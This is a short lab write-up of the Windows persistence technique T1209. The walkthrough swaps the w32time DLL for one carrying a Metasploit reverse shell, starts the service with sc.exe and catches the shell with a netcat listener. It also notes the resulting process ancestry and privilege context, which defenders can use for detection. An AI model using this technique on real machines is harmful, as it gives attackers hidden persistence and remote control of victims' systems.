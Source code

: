 ```yaml
---
description: Persistence
---
```


# T1209: Hijacking Time Providers

## Execution

Service w32time depends on the DLL specified in `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\W32Time\TimeProviders\`. 

If the attacker can replace the `w32time.dll` with his malicious DLL or modify the DllName value to point to his malicious binary, he can get the code execution. We will just swap out the w32time.dll with our own that contains a metasploit reverse shell payload:

![](../.gitbook/assets/time-registry.png)

Starting the w32time service:

```bash
C:\Users\mantvydas\Start Menu\Programs\Startup>sc.exe start w32time

SERVICE_NAME: w32time
        TYPE               : 20  WIN32_SHARE_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 964
        FLAGS              :
```

## Observations

Incoming reverse shell from the victim system:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```bash
root@~# nc -lvvp 443
listening on [any] 443 ...
10.0.0.2: inverse host lookup failed: Unknown host
connect to [10.0.0.5] from (UNKNOWN) [10.0.0.2] 64634
```
{% endcode-tabs-item %}
{% endcode-tabs %}

The shell is running as a child of svchost which is expected as this is where all the services originate from:

![](../.gitbook/assets/time-ancestry.png)

Note that the code is running under the context of `LOCAL SERVICE`:

![](../.gitbook/assets/time-context.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1209\",\"type\":\"link\",\"title\":\"Time Providers - ATT&CK for Enterprise\"}" %}

